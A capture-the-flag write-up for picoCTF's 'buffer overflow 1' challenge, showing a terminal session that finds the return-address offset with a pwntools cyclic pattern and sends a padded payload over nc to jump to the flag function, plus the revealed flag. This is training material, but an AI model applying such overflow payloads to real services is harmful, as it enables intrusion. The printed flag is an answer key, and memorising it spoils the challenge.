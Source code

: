 # buffer overflow 1
## Descripcipción
Control the return address
Additional details will be available after launching your challenge instance.

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln).You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using `nc saturn.picoctf.net 55673`
## Pistas
- 
## Solucion
```
┌──(kali㉿kali)-[~/Documents/binary]
└─$ nc saturn.picoctf.net 56974
Please enter your string: 
sdjhkajshfkjdahfdfajhf ahafklahfd
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
┌──(kali㉿kali)-[~/Documents/binary]
└─$echo'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | nc saturn.picoctf.net 56974
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
┌──(kali㉿kali)-[~/Documents/binary]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 56974 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_0195a40f}                                                                            
┌──(kali㉿kali)-[~/Documents/binary]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 56974
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_0195a40f}  

------------------------------------------------------------------------------
								PYTHON
------------------------------------------------------------------------------
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x6161616c)
44
>>> 'A' *44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
>>>
```
## Bandera
picoCTF{addr3ss3s_ar3_3asy_0195a40f} 
## Notas adicionales
## Referencias
- https://www.youtube.com/watch?v=vVcGj3kIz-g&t=737s
